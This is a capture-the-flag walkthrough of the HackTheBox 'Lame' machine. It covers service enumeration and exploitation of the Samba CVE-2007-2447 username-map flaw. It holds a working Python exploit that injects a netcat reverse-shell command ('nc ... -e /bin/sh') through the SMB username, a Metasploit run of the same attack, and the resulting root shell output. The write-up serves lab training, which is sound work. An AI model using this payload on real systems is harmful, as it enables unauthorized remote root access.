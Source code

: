 ```yaml
---
layout: post
title:  "HackTheBox - Lame"
date:   2022-05-01 17:29:02 +0100
tags: RCE CVE-2007-2447 SMB 
---
```

**Difficulty: <span style="color:green">Easy</span>**  
**Personal Difficulty: <span style="color:green">Easy</span>**   
**Rating: 4.4 / 5**  

This box is arguably one of the easiest on the site. I decided to complete it mainly because I
didn't feel confident with other boxes labelled 'easy' so I wanted to attempt one that was ranked
as easy by users. And it indeed was.  

The key to owning this box was to pay attention to software versions, and keep on the lookout for 
outdated or vulnerable versions specifically. This problem identification is what allowed me to
discover a key RCE vulnerability which I show how to exploit in 2 different ways in this walkthrough.  

### Enumeration  

To start, a ran a Nmap scan for version to identify service versions as well as running default scripts
on the remote system.

```bash
nmap -sC -sV -oN scan.nmap
```

	Nmap scan report for 10.10.10.3
	Host is up (0.019s latency).
	Not shown: 996 filtered tcp ports (no-response)
	PORT    STATE SERVICE     VERSION
	21/tcp  open  ftp         vsftpd 2.3.4
	|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
	| ftp-syst: 
	|   STAT: 
	| FTP server status:
	|      Connected to 10.10.14.21
	|      Logged in as ftp
	|      TYPE: ASCII
	|      No session bandwidth limit
	|      Session timeout in seconds is 300
	|      Control connection is plain text
	|      Data connections will be plain text
	|      vsFTPd 2.3.4 - secure, fast, stable
	|_End of status
	22/tcp  open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
	| ssh-hostkey: 
	|   1024 60:0f:cf:e1:c0:5f:6a:74:d6:90:24:fa:c4:d5:6c:cd (DSA)
	|_  2048 56:56:24:0f:21:1d:de:a7:2b:ae:61:b1:24:3d:e8:f3 (RSA)
	139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
	445/tcp open  netbios-ssn Samba smbd 3.0.20-Debian (workgroup: WORKGROUP)
	Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

	Host script results:
	| smb-os-discovery: 
	|   OS: Unix (Samba 3.0.20-Debian)
	|   Computer name: lame
	|   NetBIOS computer name: 
	|   Domain name: hackthebox.gr
	|   FQDN: lame.hackthebox.gr
	|_  System time: 2022-04-20T07:11:43-04:00
	|_smb2-time: Protocol negotiation failed (SMB2)
	| smb-security-mode: 
	|   account_used: guest
	|   authentication_level: user
	|   challenge_response: supported
	|_  message_signing: disabled (dangerous, but default)
	|_clock-skew: mean: 2h00m48s, deviation: 2h49m44s, median: 46s

Ports 21, 22, 139 and 445 are open. SMB 3.0.20 was being run on Debian according to the smb-os-discovery script.
Server Message Block (SMB) is a protocol designed for file and resource sharing on a
network. It's mainly for connecting Windows computers, but can be run on Unix systems too. You can find
more about it [here](https://en.wikipedia.org/wiki/Server_Message_Block).  

I considered that SMB wouldn't be as secure on linux (which is not the case after doing some further research) or 
that they may be running a faulty version. However I didn't go into that just yet. Instead, I decided to check out the FTP
server since anonymous login was allowed. To login via FTP anonymously, use the username `anonymous` and leave
the password blank.  

	$ ftp 10.10.10.3
	Connected to 10.10.10.3.
	220 (vsFTPd 2.3.4)
	Name (10.10.10.3:infiltr8): anonymous
	331 Please specify the password.
	Password: 
	230 Login successful.
	Remote system type is UNIX.
	Using binary mode to transfer files.
	ftp> dir
	229 Entering Extended Passive Mode (|||38290|).
	150 Here comes the directory listing.
	226 Directory send OK.
	ftp>  


Looks like there's no files to be shared on the server. 
I also connected to the system with SMB but found nothing of interest.
With that, I'll start to investigate the specific SMB version, 3.0.20-Debian.    

A quick google search showed me that this machine was vulnerable to [CVE-2007-2447](https://nvd.nist.gov/vuln/detail/CVE-2007-2447).
A further search brought me to [this Metasploit script](https://www.exploit-db.com/exploits/16320). On inspection,
It seems like adding  "/=\`nohup"  and then a shell command (ending with \`) will allow for shell code execution.
`nohup` (no hangup) is a supplemental command used to keep certain processes or commands running even after logging out or disconnecting
from our shell. I'll exploit this using a script.

### <span style="color:red">Shell as Root</span>

I'll start off by showing the 'best practice' exploit, by writing a python script. All this script will do is attempt to connect to the
vulnerable system with the corrupt username and then the payload.  

The payload I'm using is a netcat reverse shell, so that the system connects back to us at `10.10.14.21:4444` and gives us a new shell instance:

```python
#!/usr/bin/python3
from smb.SMBConnection import SMBConnection

payload = "nc 10.10.14.21 4444 -e /bin/sh"
username = "/=`nohup " + payload + "`"

connection = SMBConnection(username, "", "", "")
connection.connect("10.10.10.3",445)
```
  
`10.10.10.3 445` is the remote host and port.  
This was a simple enough script, but necessary since the payload cannot be injected via smbclient. I set up a netcat listener on another
terminal and got root access; both flags captured.  

```bash
$ nc -lnvp 4444
listening on [any] 4444 ...
connect to [10.10.14.21] from (UNKNOWN) [10.10.10.3] 35336
whoami
root
cd root
ls
Desktop
reset_logs.sh
root.txt
vnc.log
```

And user flag:

```bash
cd /home
ls
ftp
makis
service
user
cd makis && ls
user.txt
```
### Metasploit method

This is essentially the same as what I did but with Metasploit.  

Searching for the script:

	msf6 > search usermap script

	Matching Modules
	================

	   #  Name                                Disclosure Date  Rank       Check  Description
	   -  ----                                ---------------  ----       -----  -----------
	   0  exploit/multi/samba/usermap_script  2007-05-14       excellent  No     Samba "username map script" Command Execution


	Interact with a module by name or index. For example info 0, use 0 or use exploit/multi/samba/usermap_script

	msf6 > use 0
	[*] No payload configured, defaulting to cmd/unix/reverse_netcat
	
Setting options:

	msf6 exploit(multi/samba/usermap_script) > show options

	Module options (exploit/multi/samba/usermap_script):

	   Name    Current Setting                                   Required  Description
	   ----    ---------------                                   --------  -----------
	   RHOSTS  10.10.10.3; set RPORT 445, set LHOST 10.10.14.21  yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
	   RPORT   139                                               yes       The target port (TCP)


	Payload options (cmd/unix/reverse_netcat):

	   Name   Current Setting  Required  Description
	   ----   ---------------  --------  -----------
	   LHOST  192.168.50.241   yes       The listen address (an interface may be specified)
	   LPORT  4444             yes       The listen port


	Exploit target:

	   Id  Name
	   --  ----
	   0   Automatic


	msf6 exploit(multi/samba/usermap_script) > set RHOSTS 10.10.10.3
	RHOSTS => 10.10.10.3
	msf6 exploit(multi/samba/usermap_script) > set RPORT 445
	RPORT => 445
	msf6 exploit(multi/samba/usermap_script) > set LHOST 10.10.14.21
	LHOST => 10.10.14.21
	msf6 exploit(multi/samba/usermap_script) > exploit

	[*] Started reverse TCP handler on 10.10.14.21:4444 
	[*] Command shell session 1 opened (10.10.14.21:4444 -> 10.10.10.3:46546 ) at 2022-05-02 15:58:43 +0100

We got shell as root:

```bash
whoami
root
cd root && ls
Desktop
reset_logs.sh
root.txt
vnc.log
```
